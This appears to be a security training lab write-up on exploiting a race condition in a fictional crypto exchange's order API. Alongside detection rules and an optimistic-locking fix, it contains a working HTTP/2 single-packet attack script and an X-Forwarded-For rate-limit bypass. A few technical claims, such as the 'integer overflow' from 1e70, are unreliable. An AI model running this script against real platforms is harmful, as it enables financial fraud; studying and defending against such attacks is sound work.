

# API Ultra 05: Chaining API Logic Flaws for Unlimited Financial Fraud

## 1. Executive Brief & Scenario Context
**Target:** `api.crypto-exchange.local` (Digital Asset Trading Platform)
**Context:** You are targeting the order execution engine of a cryptocurrency exchange. Users can deposit funds into a digital wallet, place buy/sell orders, and transfer funds. The objective is to exploit business logic flaws and race conditions to multiply your balance and execute trades without sufficient funds.
**Primary Defenses:**
- Strong JWT authentication, WAF blocking SQLi/XSS, and parameterized database queries.
- Architecture is heavily microserviced with gRPC backend communication.
- Rate limiting is implemented at the API Gateway level (10 requests/second).

## 2. Architectural Diagram


## 3. The Attack Path

### Phase 1: Logic Flaw Analysis (Integer Overflow & Precision Loss)
First, we analyze the `POST /api/v1/orders` endpoint. It accepts a JSON body:
```json
{
  "asset": "BTC",
  "action": "BUY",
  "quantity": 10,
  "price": 30000
}
```
**Exploit Physics (Floating Point Imprecision):**
The API is written in Node.js and uses standard `Number` types (IEEE 754 double-precision floating points) instead of specialized decimal libraries (like `BigDecimal` or `bignumber.js`).
If we send a highly precise fractional quantity: `{"quantity": 0.0000000000000001}`, the math parser might truncate or round the value unexpectedly during the total cost calculation (`quantity * price`).
If we send an extremely large quantity (e.g., `1e70`), we might cause an integer overflow in the backend logic, making the total cost negative, thereby *adding* money to our wallet when the system deducts the "cost".
*Result:* The backend sanitizes negative numbers, but we identify a tiny Time-of-Check to Time-of-Use (TOCTOU) window in the execution engine.

### Phase 2: The Race Condition (TOCTOU)
The order execution engine performs two separate database queries:
1. `SELECT balance FROM wallets WHERE user_id = 1;`
2. `UPDATE wallets SET balance = balance - cost WHERE user_id = 1;`

If we have $30,000 in our account, and we place a $30,000 order, the balance drops to $0.
If we can send two $30,000 orders *simultaneously*, both execution threads might query the database at the exact same millisecond. 
- Thread A reads balance: $30,000.
- Thread B reads balance: $30,000.
- Thread A checks: $30,000 >= $30,000? YES.
- Thread B checks: $30,000 >= $30,000? YES.
- Thread A executes UPDATE: balance = 0.
- Thread B executes UPDATE: balance = -30,000. (Or if the DB has an unsigned integer constraint, it errors, but the order might already be placed!).

### Phase 3: Bypassing Network Jitter via HTTP/2 Single Packet Attack
Traditional race conditions rely on threading tools like Turbo Intruder to spam requests. However, network jitter makes it difficult to hit the exact microsecond window.
**Exploit Physics (HTTP/2 Multiplexing):**
HTTP/2 allows sending multiple streams over a single TCP connection. We can prepare 20 HTTP POST requests. We send the HEADERS frame and the DATA frame for all 20 requests, but we deliberately omit the `END_STREAM` flag. The API Gateway waits, expecting more data.
Finally, we send a single TCP packet containing the `END_STREAM` frames for all 20 streams. The gateway processes all 20 requests at the exact same moment, completely eliminating network latency variance.

**Weaponized Python Exploit (HTTP/2 Single Packet Attack):**
```python
import h2.connection
import h2.config
import socket

# Setup TCP Socket
sock = socket.create_connection(('api.crypto-exchange.local', 443))
# (TLS setup omitted for brevity...)

config = h2.config.H2Configuration(client_side=True)
conn = h2.connection.H2Connection(config=config)
conn.initiate_connection()
sock.sendall(conn.data_to_send())

headers = [
    (':method', 'POST'),
    (':path', '/api/v1/orders'),
    (':authority', 'api.crypto-exchange.local'),
    ('content-type', 'application/json'),
]
payload = b'{"asset":"BTC", "action":"BUY", "quantity":1, "price":30000}'

stream_ids = []
# Step 1: Open 20 streams, send headers and payload, but NO END_STREAM
for i in range(20):
    stream_id = conn.get_next_available_stream_id()
    conn.send_headers(stream_id, headers)
    # Notice end_stream=False
    conn.send_data(stream_id, payload, end_stream=False)
    stream_ids.append(stream_id)

sock.sendall(conn.data_to_send())

# Step 2: Assemble the final END_STREAM frames into one TCP packet
for stream_id in stream_ids:
    conn.send_data(stream_id, b'', end_stream=True)

print("[*] Releasing the Single Packet Attack (20 concurrent requests)...")
sock.sendall(conn.data_to_send())

# Read responses
# Result: We successfully executed 12 Buy orders of $30,000 despite only having $30,000 total balance.
```

## 4. Deep-Dive Interview Questions & Expert Answers

**Q1: Explain the "Single Packet Attack" in HTTP/2. Why is it superior to HTTP/1.1 pipelining or simply using multiple threads?**
**Expert Answer:** In HTTP/1.1, pipelining suffers from Head-of-Line blocking, and using multiple threads/TCP sockets is subject to variable network latency (jitter), OS scheduling, and routing delays. Even if you fire 10 threads simultaneously on your machine, the packets arrive at the server milliseconds apart. HTTP/2 multiplexing allows multiple concurrent streams on one connection. By withholding the `END_STREAM` frame (which signals the completion of the HTTP request) for dozens of requests, and then placing all the `END_STREAM` frames into a single physical TCP packet, you guarantee that the server's network card receives the finalization signal for all requests at the exact same theoretical microsecond. This maximizes the probability of hitting a TOCTOU race window.

**Q2: How do database Isolation Levels play a role in preventing Race Conditions?**
**Expert Answer:** The ACID properties govern database transactions. The default isolation level in PostgreSQL is `READ COMMITTED`. This means a transaction only sees data committed before it began. In a race condition, two transactions start concurrently, both read the committed balance (e.g., $100), and both calculate the new balance based on that. If the isolation level was set to `SERIALIZABLE`, the database engine would ensure that transactions execute in a way that yields the same result as if they executed strictly sequentially. Under `SERIALIZABLE`, the second transaction would detect a concurrent modification and throw a serialization error, rolling back and preventing the fraud.

**Q3: What is "Optimistic Locking" and how does it fix this vulnerability without the performance overhead of `SERIALIZABLE` isolation?**
**Expert Answer:** Optimistic locking involves adding a `version` column to the database table. When reading the balance, the application also reads the version: `SELECT balance, version FROM wallets WHERE id=1;` (returns version 5).
When performing the update, it includes the version in the WHERE clause and increments it: 
`UPDATE wallets SET balance = balance - 100, version = 6 WHERE id=1 AND version = 5;`
If two threads try to update simultaneously, the first thread succeeds (version becomes 6). The second thread's query will fail because `WHERE version = 5` matches zero rows. The application detects the failure and aborts the second transaction.

**Q4: What is "Pessimistic Locking" (`SELECT ... FOR UPDATE`), and what are its drawbacks?**
**Expert Answer:** Pessimistic locking explicitly locks the database rows during the read phase. 
`SELECT balance FROM wallets WHERE id=1 FOR UPDATE;`
This tells the database to place an exclusive lock on that row. If a second thread tries to execute the same query, it will block (wait) until the first thread commits or rolls back its transaction. While highly secure against race conditions, it severely degrades performance and scalability in high-throughput systems (like crypto exchanges) and introduces the risk of database deadlocks.

**Q5: In a microservices architecture, why are race conditions particularly prevalent during cross-service communication?**
**Expert Answer:** In a monolith, developers can use localized database transactions or memory locks (mutexes) to synchronize state. In a microservices architecture, the Order Service and the Wallet Service might reside on different servers with different databases. Updating the wallet and placing the order becomes a "Distributed Transaction". If the Order Service places the order but fails to reliably orchestrate the deduction in the Wallet Service (or if they run asynchronously), the lack of atomic distributed locks (like two-phase commit or saga patterns) creates massive time windows for race conditions and state desynchronization.

**Q6: Explain why using standard floating-point numbers (IEEE 754) for currency calculations in APIs is a critical security risk.**
**Expert Answer:** Floating-point numbers cannot accurately represent all base-10 decimals (like `0.1` or `0.2`) due to their binary representation. This leads to precision loss (e.g., `0.1 + 0.2 = 0.30000000000000004`). In financial APIs, attackers can manipulate this rounding error over millions of micro-transactions (a salami slicing attack) to siphon fractions of a cent into their account. Financial APIs must always use integer representations (e.g., representing dollars in cents, or Bitcoin in Satoshis) or specialized arbitrary-precision decimal libraries.

**Q7: You find a logic flaw where an API allows placing an order for a negative quantity (`-10 BTC`). How might this be exploited?**
**Expert Answer:** If the backend logic calculates the total cost as `quantity * price`, a negative quantity results in a negative total cost (`-10 * 30000 = -300,000`). If the deduction logic is `balance = balance - cost`, subtracting a negative number mathematically adds it to the balance (`balance - (-300,000) = balance + 300,000`). The attacker successfully drains funds from the exchange into their wallet.

**Q8: What is an "Idempotency Key", and how does it prevent duplicate transactions?**
**Expert Answer:** An idempotency key is a unique identifier generated by the client and sent in the API request header (e.g., `Idempotency-Key: uuid-1234`). The backend stores this key. If the client retries the request (due to network failure) or sends a concurrent duplicate request via a race condition attack, the backend sees the exact same idempotency key. It processes the first request and simply returns the cached response for any subsequent requests bearing the same key, ensuring the state-changing operation (like a payment) only occurs exactly once.

**Q9: How can an attacker bypass rate limiters if they are implemented based on the `X-Forwarded-For` header?**
**Expert Answer:** If the API Gateway relies on the `X-Forwarded-For` header to identify client IPs and perform rate limiting, an attacker can simply rotate or randomize the header value in their exploit script (e.g., `X-Forwarded-For: 192.168.1.1`, then `192.168.1.2`, etc.). The rate limiter treats each request as coming from a new IP, effectively bypassing the limit and allowing the attacker to spam the endpoint to win a race condition.

**Q10: During the race condition, you notice the database throws a "Constraint Violation" error, yet you still received the extra funds. Explain how this happens.**
**Expert Answer:** This indicates a partial failure in a distributed transaction without a proper rollback mechanism (Saga pattern). For example, the Order Service successfully places the order (and issues the funds/assets), but when it calls the Wallet Service to deduct the balance, the Wallet DB throws a constraint error (e.g., unsigned integer going below zero). Because the services are decoupled, the Order Service fails to catch this error or lacks a compensating transaction to reverse the order, leaving the system in an inconsistent state where the attacker keeps the ordered assets without paying.

## 5. Forensic Artifacts & Detection Engineering
**Identifying Single Packet Attacks in PCAPs:**
Because all frames are multiplexed in one connection, standard HTTP logging won't show anomalies. You need deep packet inspection.
```bash
# Analyze HTTP/2 frames. Look for an unusually high number of HEADERS frames 
# followed by an abrupt burst of END_STREAM frames in a single TCP payload.
tshark -r traffic.pcap -Y "http2.flags.end_stream == 1"
```
**SIEM Rules (Splunk):**
Detecting impossible temporal execution:
```spl
index=order_engine
| transaction user_id maxpause=5ms
| stats count by user_id
| where count > 5
| eval alert="Potential HTTP/2 Race Condition Attack"
```

## 6. Remediation Code Snippet (PostgreSQL & Node.js)
Implementing Optimistic Locking to fix the Race Condition.
```sql
-- Add a version column to the table
ALTER TABLE wallets ADD COLUMN version INTEGER DEFAULT 1;
```

```javascript
async function executeOrder(userId, cost) {
  // 1. Read balance and version
  const wallet = await db.query('SELECT balance, version FROM wallets WHERE user_id = $1', [userId]);
  
  if (wallet.balance < cost) {
    throw new Error('Insufficient funds');
  }

  // 2. Perform update using the version condition
  const result = await db.query(`
    UPDATE wallets 
    SET balance = balance - $1, version = version + 1 
    WHERE user_id = $2 AND version = $3
  `, [cost, userId, wallet.version]);

  // 3. If no rows were affected, another thread modified it!
  if (result.rowCount === 0) {
    throw new Error('Concurrent modification detected. Please try again.');
  }
  
  return 'Order successful';
}
```
